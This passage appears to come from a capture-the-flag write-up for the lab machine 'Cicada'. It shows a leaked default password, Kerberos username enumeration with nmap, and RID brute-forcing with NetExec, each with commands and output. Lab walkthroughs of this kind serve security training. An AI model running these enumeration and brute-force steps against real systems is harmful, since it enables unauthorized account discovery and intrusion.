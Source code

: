 The file contains the following password, but no username related:

> ...snip...
> Your default password is: Cicada$M6Corpb*@Lp#nZp!8
> ...snip...


### Kerberos

We can try to enumerate valid usernames with `krb5-enum-users` nmap script:

```
$ nmap -Pn -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='cicada.htb'" 10.10.11.35

...snip...

88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     guest@cicada.htb
|_    administrator@cicada.htb

```

We could also try `nmap -p 88 --script=krb5-enum-users.nse --script-args krb5-enum-users.realm='cicada.htb',userdb=/usr/share/seclists/Usernames/Names/names.txt 10.10.11.35`.

As shown above, only the default usernames were found, so let's try another way to enumerate valid accounts.

### Bruteforce RIDs

Using the NetExec tool, we can attempt to [enumerate users by bruteforcing RID](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-users-by-bruteforcing-rid), taking advantage of guest authentication:

```
$ nxc smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```

![](assets/bruteforce_rid.png)
